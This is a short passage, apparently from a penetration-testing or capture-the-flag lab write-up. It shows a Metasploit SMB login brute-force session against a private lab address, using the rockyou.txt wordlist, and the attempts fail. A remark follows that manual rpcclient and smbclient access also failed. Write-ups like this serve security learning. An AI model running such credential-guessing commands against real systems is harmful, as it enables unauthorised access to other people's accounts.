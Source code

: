 \begin{lstlisting}[language=bash,caption={}]
msf auxiliary(smb_login) > set PASS_FILE /root/rockyou.txt
PASS_FILE => /root/rockyou.txt
msf auxiliary(smb_login) > set USER_FILE /root/userlist
USER_FILE => /root/userlist
msf auxiliary(smb_login) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(smb_login) > run

[*] 192.168.248.131:445 SMB - Starting SMB login bruteforce

...

[-] 192.168.248.131:445 SMB - Failed: 'WORKSTATION\Admin:082807', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 Wordcount=0)
...
\end{lstlisting}

That final line was repeated many, many, many times. Other attempts were manually logging in with \textit{rpcclient} and \textit{smbclient}, but listing directories let alone writing was not possible anywhere, on any share.
